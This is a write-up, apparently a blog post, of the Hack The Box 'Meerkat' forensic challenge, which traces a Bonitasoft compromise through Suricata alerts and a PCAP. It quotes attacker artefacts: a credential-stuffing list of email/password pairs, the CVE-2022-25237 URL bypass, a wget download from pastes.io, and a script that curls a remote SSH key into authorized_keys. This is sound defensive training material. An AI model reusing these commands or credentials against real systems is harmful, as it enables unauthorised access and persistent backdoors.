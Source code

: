 ```yaml
---
title: "HTB Sherlock Meerkat"
date: 2024-06-12T04:45:17-04:00
tags:
  - htb
  - sherlock
  - soc
  - pcap
  - siem
  - alerts
  - json
  - wireshark
  - jq
  - forensic
  - exploit
  - linux
---
```


# Meerkat - SOC

### Scenario
As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

### Artifacts
| Artifact            | MD5 Hash                         | Password    |
| ------------------- | -------------------------------- | ----------- |
| meerkat.zip         | 9b8369a0fcd7f95889c28da597951ad3 | hacktheblue |
| meerkat-alerts.json | f9642326d526c4f5159470b1c5d89b4a | n/a         |
| meerkat.pcap        | 7ac62b1e835e0850104f1fc2ecf1f002 | n/a         |

### Tools Used
+ `jq` JSON parser - Analyzing the JSON file.
+ WireShark - Analyzing the PCAP file.

### Forensic Analysis

**Using `jq` I quickly searched for alerts with severity level 1.**
```json
$ cat meerkat-alerts.json| jq '.[] | select(.alert.severity==1)' | less
<--snip-->
{
  "ts": "2023-01-19T15:31:31.042Z",
  "event_type": "alert",
  "src_ip": "156.146.62.213",
  "src_port": 53196,
  "dest_ip": "172.31.6.44",
  "dest_port": 8080,
  "vlan": null,
  "proto": "TCP",
  "app_proto": "http",
  "alert": {
    "severity": 1,
    "signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)",
    "category": "Attempted Administrator Privilege Gain",
    "action": "allowed",
    "signature_id": 2036815,
    "gid": 1,
    "rev": 1,
    "metadata": {
      "signature_severity": [
        "Minor"
      ],
      "former_category": [
        "WEB_SPECIFIC_APPS"
      ],
      "attack_target": [
        "Server"
      ],
      "deployment": [
        "SSLDecrypt",
        "Perimeter"
      ],
      "affected_product": null,
      "created_at": [
        "2022_06_03"
      ],
      "performance_impact": [
        "Low"
      ],
      "updated_at": [
        "2022_06_03"
      ],
      "malware_family": null,
      "tag": null,
      "cve": [
        "CVE_2022_25237"
      ]
    }
  },
  "flow_id": 1652763046938834,
  "pcap_cnt": 2168,
  "tx_id": 0,
  "icmp_code": null,
  "icmp_type": null,
  "tunnel": null,
  "community_id": "1:0XAwrtog1jdopmX+yd1WRDEzMAc="
}
```

Looks like a TA was brute forcing the default credentials for Bonitasoft to exploit the CVE-2022-25237. I confirmed the credential stuffing attack by analyzing the PCAP file.

**PCAP Analysis Using WireShark**
![alt text](images/20240612174728.png)

Analyzing the PCAP file it was confirmed that the TA successfully gained access to an account with the credential `seb.broom@forela.co.uk:g0vernm3nt`. And then gained privileged access to the Web Application's REST API by exploiting CVE-2022-25237. After getting privileged access to the Bonita web service the TA uploaded a malicious API extension to get command execution on the web application server.
![alt text](images/20240612175559.png)

The TA successfully gained command execution on the server.
![alt text](images/20240612181452.png)
![alt text](images/20240612181529.png)


**CVE-2022-25237**
According to [NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-25237), *Bonita Web 2021.2 is affected by a authentication/authorization bypass vulnerability due to an overly broad exclude pattern used in the RestAPIAuthorizationFilter. By appending ;i18ntranslation or /../i18ntranslation/ to the end of a URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions.*

HTTP Object Extraction:
![alt text](images/20240612180604.png)

After discovering this incident I extracted all the HTTP TCP stream objects from the PCAP file and found the usernames and passwords combination list used in this security incident. 
```csv
user,password
Clerc.Killich%40forela.co.uk,vYdwoVhGIwJ
Lauren.Pirozzi%40forela.co.uk,wsp0Uy
Merna.Rammell%40forela.co.uk,u7pWoF36fn
Gianina.Tampling%40forela.co.uk,maUIffqQl
Konstance.Domaschke%40forela.co.uk,6XLZjvD
Vida.Murty%40forela.co.uk,4ulecG
Elka.Cavet%40forela.co.uk,n1aSdc
Noam.Harvett%40forela.co.uk,VDt8bh
Norbie.Bartolini%40forela.co.uk,GV2zlop
Cariotta.Whife%40forela.co.uk,x3hoU0
Mella.Amsberger%40forela.co.uk,4nIYM5WqN
Cyndy.Element%40forela.co.uk,ybWxct
Imelda.Braben%40forela.co.uk,dC7bjGLYB
Marven.Samuel%40forela.co.uk,LPU0qQnt108
Osborne.Humpatch%40forela.co.uk,OJ4WHcI4D
Talya.Sterman%40forela.co.uk,3gCERZ2JMh
Drusilla.Nice%40forela.co.uk,l35Euh0T3Am
Tobiah.Horstead%40forela.co.uk,fp0OQl
Kayley.Northway%40forela.co.uk,s9MC7mkdVU
Adora.Mersh%40forela.co.uk,85Hh8JZkJR6
Guss.Botten%40forela.co.uk,sVMRgGmv0sE
Cordelie.Rostron%40forela.co.uk,mAtdcJh
Ellerey.Bierling%40forela.co.uk,Nva0nKTz
Berny.Ferrarin%40forela.co.uk,lPCO6Z
Nefen.Heffernon%40forela.co.uk,VR0ZA8
Skipton.Pickerill%40forela.co.uk,lcsui1Nu
Nola.Crichmer%40forela.co.uk,QGa58W3L
Sharon.Claus%40forela.co.uk,3X4d06I
Bernelle.Draycott%40forela.co.uk,MmxlUAWe0oW
Samaria.Percifull%40forela.co.uk,CUgc3hzHw5g
Puff.Yapp%40forela.co.uk,M08Aae
Cynthia.Hatto%40forela.co.uk,z0NXI6
seb.broom%40forela.co.uk,g0vernm3nt
Alexi.Siman%40forela.co.uk,iUS11pX
Pete.Panons%40forela.co.uk,BKdkGTB
Rakel.Cawley%40forela.co.uk,h4gW3YLwnW9t
Merl.Lavalde%40forela.co.uk,BgfiOVXNLBc
Antoinette.Vittel%40forela.co.uk,bGtHL8cg
Stanleigh.Tuckwell%40forela.co.uk,VQCk8TGn3
Denny.Gepson%40forela.co.uk,q2JqCSXk69
Aline.Rivallant%40forela.co.uk,gFixyf1nGgf
Jordain.Eykel%40forela.co.uk,rnMXBNdNW0
Gypsy.Henric%40forela.co.uk,lLPqVgmHs5F
Adrea.Shervil%40forela.co.uk,7YoFhtUq
Jenilee.Pressman%40forela.co.uk,3eYwLOKhQEcl
Fredrick.Gerraty%40forela.co.uk,W1By0HUByDHO
Ebony.Oleszcuk%40forela.co.uk,uAWnyfKOjQM
Garrard.Colisbe%40forela.co.uk,jMi9iP
Farleigh.Schouthede%40forela.co.uk,JzI6Dvhy
Ahmed.Monteaux%40forela.co.uk,6uskrtw8U
Griffith.Lumm%40forela.co.uk,QPepd0M8wBK
Winston.Conville%40forela.co.uk,cEmh5W2Vh
Pat.Kloisner%40forela.co.uk,N8ZwVMzF6
Teresita.Benford%40forela.co.uk,uvYjtQzX
Mathian.Skidmore%40forela.co.uk,TQSNp6XrK
Gerri.Cordy%40forela.co.uk,w15pvWGTK
```

I also found an interesting file named `bx5gcr0et8`.
```json
{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

A command was issued to download the file from `pastes.io`.
![alt text](images/20240612181638.png)

And then another command was issued to run the `bx5gcr0et8` file which was a bash script.
![alt text](images/20240612181813.png)

The contents of the bash script `bx5gcr0et8`:
```bash
**#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart**
```

A persistence technique identified by MITRE with a technique ID [T1098.004](https://attack.mitre.org/techniques/T1098/004/). Basically, the adversary used a public key and inserted in into the `/home/ubuntu/.ssh/authorized_keys` file. In this technique the TA can also set the derivative `PubkeyAuthentication` set to `yes` in the `/etc/ssh/sshd_config` file. And, also can modify the `sshd_config` file further and set the `RSAAuthentication` to the value `yes`, if the public key algorithm is RSA based.

The Public Key used by the TA:
```text
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN
```


### Summary
The threat actors used credential stuffing attack against the Bonita Service and escalated their privileges in the web application by exploiting CVE-2022-25237. After that to get remote code execution on the server the threat actors uploaded a malicious extension file which gave them command injection ability. Then, they used this ability to get information of the users and added a SSH backdoor to the `ubuntu` user account for persistence.
